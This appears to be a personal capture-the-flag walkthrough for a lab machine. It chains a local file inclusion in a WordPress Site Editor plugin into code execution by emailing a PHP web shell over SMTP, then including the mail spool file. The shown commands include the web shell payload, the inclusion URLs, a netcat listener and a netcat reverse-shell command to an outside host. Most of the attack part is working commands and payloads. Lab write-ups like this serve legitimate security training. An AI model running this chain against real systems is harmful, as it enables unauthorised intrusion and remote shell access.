 Searching info
![Pasted image 20241206205356.png](/img/user/attachments/Pasted%20image%2020241206205356.png)
It works, the interesting user for us is *helios* and *root*
![Pasted image 20241206205552.png](/img/user/attachments/Pasted%20image%2020241206205552.png)
## LFI to RCE
To get en *RCE* from *LFI* we need to put or upload a file (Like a php shell) to the system, since via the web server dont looks posible. I will do it via **SMTP** with a email

Connect
```shell
nc 192.168.122.73 25
```

Send the email
```shell
MAIL FROM: Ge0
RCPT TO: Helios
DATA
<?php echo system($_GET['cmd']); ?>
.
```
![Pasted image 20241206210047.png](/img/user/attachments/Pasted%20image%2020241206210047.png)
Using *LFI* check the file `/var/mail/helios`
```shell
view-source:http://symfonos.local/h3l105/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/var/mail/helios
```
![Pasted image 20241208090918.png](/img/user/attachments/Pasted%20image%2020241208090918.png)
That means the email was sent correctly buy we are not sure if the payload was stored succesfully
Check if we can execute commands *RCE* with the command `whoami`
```shell
view-source:http://symfonos.local/h3l105/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/var/mail/helios&cmd=whoami
```
![Pasted image 20241208091333.png](/img/user/attachments/Pasted%20image%2020241208091333.png)
It works
Now we can get a reverse shell

Start the listener
```shell
lrwrap nc -lnvp 4747
```

Execute the code
```
view-source:http://symfonos.local/h3l105/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/var/mail/helios&cmd=nc+192.168.122.192+4747+-e+/bin/bash
```

We have the shell as *helios*
![Pasted image 20241208091803.png](/img/user/attachments/Pasted%20image%2020241208091803.png)
Optionally we can [[Notes/Upgrading shell\|Upgrading shell]]

---